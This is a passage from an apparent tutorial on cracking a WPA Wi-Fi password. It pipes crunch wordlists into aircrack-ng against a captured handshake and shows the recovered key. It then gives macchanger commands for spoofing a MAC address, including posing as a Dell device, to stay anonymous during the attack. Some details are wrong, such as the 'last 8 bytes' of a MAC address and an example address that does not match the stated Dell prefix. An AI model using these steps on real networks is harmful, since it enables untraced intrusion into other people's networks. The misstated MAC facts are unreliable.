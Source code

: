 With this flag, we can modify our command as follows:

```
$ crunch 14 14 -t @@@@@@@@@@@%%%  | aircrack-ng -w - SCAN_OUTPUT.cap -e Lower\ The\ Rent
```

This will still take long, however, due to the length of the password. Let's cheat a little bit just to show the success screen. Here's the new command where we will type in the letters of the password and only try to guess the remaining digits:

```
crunch 14 14 -t pinkcoconut%%% | aircrack-ng -w - SCAN_OUTPUT.cap -e Lower\ The\ Rent
```

Success! The password has been found:

```
                              Aircrack-ng 1.5.2


                   [00:00:03] 842 keys tested (262.68 k/s)


                        KEY FOUND! [ pinkcoconut165 ]


      Master Key     : 1C 7E B9 AE 6E 96 C3 29 A1 CC 8F 70 CE 3D 41 46
                       6A 02 A6 A3 82 E8 19 D8 34 12 E2 62 A6 79 8B C7

      Transient Key  : C1 FA BC A8 1E 15 B9 3F 7C 59 AA 00 8D 6F 9A C1
                       F8 D6 F2 A1 BB 8A 0F 71 05 D1 C0 89 88 34 04 CC
                       5A 10 EF FF 77 08 13 EF CA 8B 10 53 31 5E 65 20
                       A9 A8 25 7A 37 AA A8 A4 BD 67 6F E4 F9 36 14 C4

      EAPOL HMAC     : 92 FB C9 F7 B9 1B 60 B1 82 9B 90 BA 03 EF E4 83
```

## Additional Tips

If you want to stay as anonymous as possible, you can change your MAC Address before attempting any of this. You can easily do this using a tool like `macchanger`. The following command will assign a randomized MAC address to the `wlan0` interface:

```
$ macchanger -r wlan0
```

We can be more clever and use a MAC address from a known company. The first 3 bytes of a MAC address are known as the Organizationally Unique Identifier (OUI) and can identify the manufacturer. For example, some of Dell's devices have the first 3 bytes as `F8:DB:88`. The last 8 bytes can be anything, as long as it is within the range of A-F and 0-9 (hexadecimal values).

We can specify a MAC address with the following command:

```
$ macchanger -m f8:d8:88:64:fd:c7 wlan0
```
